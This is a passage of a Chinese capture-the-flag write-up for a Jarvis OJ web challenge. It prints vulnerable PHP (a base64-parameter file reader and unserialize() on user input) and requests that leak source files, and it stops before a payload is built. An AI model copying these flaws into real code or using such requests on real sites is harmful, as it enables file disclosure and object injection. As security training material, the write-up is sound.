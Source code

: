 ```
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>

```

从这里我们知道了flag在pctf.php, 那么执行通过读这个文件内容呢？随即访问了：`http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=`
页面提示`File not found` 果然没有想的那么简单。

那么如果直接访问`http://web.jarvisoj.com:32768/pctf.php`,结果页面提示：
`FLAG: PCTF{I_4m_not_fl4g}`

这个时候想既然已经可以看代码文件内容了那就把showimg.php的代码内容也看一下，随即访问：`http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=` 得到了内容如下：

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

这里和猜想的差不多就是根据img参数去读文件，不过目前我知道的有用信息是答案就在pctf.php, 这个时候看看页面下是否有index.php 文件，看看内容是什么，访问：`http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw`,看到了如下内容



```
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
```

